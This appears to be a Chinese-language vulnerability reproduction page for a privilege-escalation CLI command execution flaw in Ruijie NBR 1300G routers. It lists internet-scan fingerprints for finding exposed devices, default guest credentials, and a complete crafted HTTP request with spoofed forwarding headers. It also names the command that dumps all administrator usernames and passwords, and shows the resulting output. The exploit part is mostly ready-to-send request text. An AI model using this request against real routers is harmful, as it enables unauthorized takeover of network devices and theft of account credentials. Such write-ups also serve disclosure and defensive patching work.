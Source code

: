 # 锐捷 NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络 --NBR路由器--登录界面"</a-checkbox></br>

<a-checkbox checked>app="Ruijie-NBR路由器"	</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-35.png)



查看流量发现 CLI命令流量



![img](../../../.vuepress/public/img/ruijie-36.png)



请求包为



```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```



测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）



登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码



![img](../../../.vuepress/public/img/ruijie-37.png)



成功获取所有用户的账号密码



```plain
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```



## 